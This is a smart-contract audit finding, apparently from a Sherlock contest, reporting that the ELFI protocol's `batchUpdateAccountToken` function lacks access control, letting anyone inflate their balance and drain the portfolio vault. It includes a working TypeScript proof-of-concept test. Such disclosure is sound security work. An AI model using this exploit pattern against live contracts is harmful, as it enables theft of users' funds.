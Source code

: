 Active Punch Jellyfish

High

# Anyone can change the balance of an account to drain the entire portfolio vault

## Summary
Anyone can call `batchUpdateAccountToken` to update their balance in portfolio vault without depositing the tokens. 
## Vulnerability Detail
Simply call the function with desired amounts and withdraw the funds from portfolio vault

**Coded PoC:**
```typescript
it("Anyone Can change the balance as wish", async function () {
		const usdcAmount = precision.token(1000, 6);
		// do this so that the user0 account is exists
		await deposit(fixture, {
			account: user0,
			token: usdc,
			amount: usdcAmount,
		});

		// change the balance as you wish
		const updateAccParams = {
			account: user0.address,
			tokens: [usdcAddr, wbtcAddr],
			changedTokenAmounts: [
				precision.token(100_000, 6), // USDC with 6 decimals
				precision.token(100), // WBTC with default 18 decimals
			],
		};

		await accountFacet.connect(user0).batchUpdateAccountToken(updateAccParams);

		const accountInfo = await accountFacet.getAccountInfo(user0.address);
		console.log(
			"Account info before execute and after create request",
			accountInfo
		);
	});
```
## Impact
All funds in portfolio vault can be drained. 
## Code Snippet
https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/8a1a01804a7de7f73a04d794bf6b8104528681ad/elfi-perp-contracts/contracts/facets/AccountFacet.sol#L68-L71
## Tool used

Manual Review

## Recommendation
I am guessing this function should not be existed and here for test purposes, missing access control or missing the actual token transfer. Without knowing the exact reason why this function is here it is not possible to give any recommendations. 